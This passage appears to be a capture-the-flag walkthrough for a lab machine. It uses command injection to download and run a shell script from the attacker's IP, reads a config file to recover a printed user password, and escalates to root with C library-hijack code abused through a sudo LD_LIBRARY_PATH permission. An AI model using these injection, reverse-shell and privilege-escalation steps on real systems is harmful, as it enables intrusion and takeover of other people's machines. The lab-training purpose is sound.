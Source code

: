 ![](https://i.imgur.com/uiTEqmv.png)

On the website run this

```bash
127.0.0.1&wget 10.9.75.133/shell.sh
```

Running `127.0.0.1&ls` we can see we have `shell.sh` truly downloaded

![](https://i.imgur.com/qJMKpiT.png)

Start up your listener and run `shell.sh` with

```
127.0.0.1&bash shell.sh
```

![](https://i.imgur.com/MG0RKUN.png)

Running `ls` in `/var/www/html` we have `config.php`, concatenating it gives us user **rick's** Credential


![](https://i.imgur.com/p9ykkh7.png)

Switch user to **rick** with the `su` command using credential, `rick:N3v3rG0nn4G1v3Y0uUp`

![](https://i.imgur.com/SOlzRvb.png)

Running `sudo -l` we can see that we have permissions to run `LD_LIBRARY_PATH` for shared libraries.

![](https://i.imgur.com/drb1RvC.png)

Running `ldd /usr/sbin/apache2` we can see we have `libcrypt.so.1`, which is our main target

![](https://i.imgur.com/8EbwhjA.png)

Add this `C` code as shown below into a file called `library_path.c`

```C
#include <stdio.h>  
#include <stdlib.h>  
   static void hijack() __attribute__((constructor));  
   void hijack() {  
   unsetenv("LD_LIBRARY_PATH");  
   setresuid(0,0,0);  
   system("/bin/bash -p");  
}
```

![](https://i.imgur.com/0akrqrS.png)

Then run the following command in **rick's** home directory

```bash
$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
